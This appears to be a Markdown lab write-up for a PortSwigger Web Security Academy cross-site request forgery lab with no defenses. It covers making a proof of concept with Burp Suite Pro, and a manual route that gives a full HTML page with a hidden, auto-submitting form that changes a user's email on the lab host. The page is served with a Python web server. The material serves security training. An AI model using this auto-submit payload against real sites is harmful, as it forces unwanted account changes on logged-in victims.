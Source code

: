 2. Now, we are going to create "CSRF POC" script with the help of burpsuite pro and for that right click on the request that we captured earlier with the help of burpsuite pro do the below steps:
"Engagement tools" > "Generate CSRF PoC"
![[csrf3.png]]

After doing the above steps, there is a new window pop up. 
![[csrf4.png]]
In this window, click on "Options" and make sure to select first and last options and click "Regenerate" and copy the script.

3. Paste the payload that copied in the step 2.
![[csrf5.png]]

If email is not changed after doing it with exploit server then In step 2 click "Test in browser". Now you will see the email has changed.
![[csrf6.png]]
paste the link in the browser, now you will see that the email has been changed.
You can also click on "View exploit" in the step 3 to see the email.

#### Without burpsuite professional

1. Analyse the website and check that three key conditions must be in place for a CSRF attack to be possible:
After analysing the site the site, we come a endpoint where it is possible to change the email of a user. So, change your email and at the same time intercept it with burpsuite and sent it to Repeater.
![[csrf2.png]]
   - A relevant action - email change functionality.
   - Cookie based session handling.
   - No unpredictable request parameters - Satisfied(As you can see, there is no CSRF token that we can't predict it).

2. Now, copy the below payload and paste where you wanted to start your web server.
```html
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <form action="https://target-acb91feb1e053ea78076271500a20022.web-security-academy.net/my-account/change-email" method="POST" target="csrf-iframe" id="csrf-form">
            <input type="hidden" name="email" value="test5@test.ca">
        </form>

        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```

![[csrf7.png]]

3. Now, start the python server with the help of below command:
```shell
┌──(hoax㉿kali)-[~]
└─$ pwd                                                               
/home/hoax                                                                              
┌──(hoax㉿kali)-[~]
└─$ python3 -m http.server 5555                                       
Serving HTTP on 0.0.0.0 port 5555 (http://0.0.0.0:5555/) ...
```

4. Make a GET request at the below endpoint.
![[csrf8.png]]

**For detail information watch** --> [[CSRF-Lab1_CSRF_vulnerability_with_no_defenses _ Long Version.mp4]]